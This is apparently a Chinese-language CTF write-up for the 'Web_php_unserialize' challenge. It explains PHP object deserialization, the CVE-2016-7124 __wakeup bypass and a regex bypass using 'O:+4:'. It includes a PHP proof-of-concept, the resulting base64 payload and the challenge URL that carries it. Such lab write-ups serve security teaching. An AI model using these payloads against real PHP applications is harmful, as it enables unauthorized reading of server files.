

# WEB

## Web_php_unserialize

### 一、准备

题目内容


通过名字可以知道这道题目考察php序列化和反序列化，Demo类中`__wakeup`方法明确提示fl4g.php是我们想要的。

阅读代码可知，该页面通过GET方法获得参数`var`的值，并进行了base64解码、正则表达式过滤和反序列化，因此，

+ 显然直接访问<111.198.29.45:55922/fl4g.php>是不行的，因为没有参数`var`，页面显示index.php的内容；
+ 若参数`var`的内容经过base64解码后无法绕过正则表达式也是不行的。
+ 我们想要的是fl4g.php的内容，只有通过Demo类的析构函数。

### 二、PHP序列化与反序列化

**serialize()**

serialize() 返回字符串，此字符串包含了表示 value 的字节流，可以存储于任何地方。简单来讲，就是将对象转化为可以传输的字符串，字符串中存储着对象的变量、类型等。



**unserialize()**

将序列化后的字符串转化为PHP的值。unserialize() 会检查是否存在一个  __wakeup 方法，如果存在，则会先调用预先准备对象需要的资源。

### 三、反序列化漏洞CVE-2016-7124

**漏洞影响版本**

PHP5 < 5.6.25

PHP7 < 7.0.10

**漏洞产生原因**

如果存在`__wakeup()方法`，调用unserialize()方法前则先调用 `__wakeup()`方法，但是当序列化字符串中对象属性个数大于真实的属性个数时，会跳过`__wakeup()`执行。

### 四、问题解决

这道题目有两个关键点：绕过正则表达式、绕过`__wakeup()`方法。

对Demo类序列化的结果是O:4:"Demo":1:{s:10:"%00Demo%00file";s:8:"fl4g.php";}，需要注意的是由于Demo类中file变量是私有的，序列化结果中'Demo'左右两边各有一个不可显字符0x00。

**绕过正则表达式**

正则表达式`'/[oc]:\d+:/i'`表示过滤`o:数字:`、`c:数字:`，`/ /i`表示不区分大小写。可以将`O:4:`变为`O:+4:`，`+4`表示正4。

**绕过`__wakeup()`方法**

将序列化结果中`"Demo":1:`改为`"Demo":2:`即可，主要就是利用PHP反序列化漏洞。

**POC代码**

```php
<?php
    class Demo { 
        private $file = 'index.php';
        public function __construct($file) { 
            $this->file = $file; 
        }
        function __destruct() { 
            echo @highlight_file($this->file, true); 
        }
        function __wakeup() { 
            if ($this->file != 'index.php') { 
                //the secret is in the fl4g.php
                $this->file = 'index.php'; 
            } 
        } 
    }
    $Demo = new Demo('fl4g.php');
    $data = serialize($Demo);
		
    $data = str_replace('O:4', 'O:+4', $data);
    $data = str_replace(':1:', ':2:', $data);
	echo base64_encode($data);
?>
```

输出结果 TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

访问<111.198.29.45:55922?/var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==>即可得到flag。

### 五、思考

将序列化结果中的数字前面加上`+`，不影响反序列化，同理，在数字前加上`0`也可以，只不过无法绕过本题目中的正则表达式。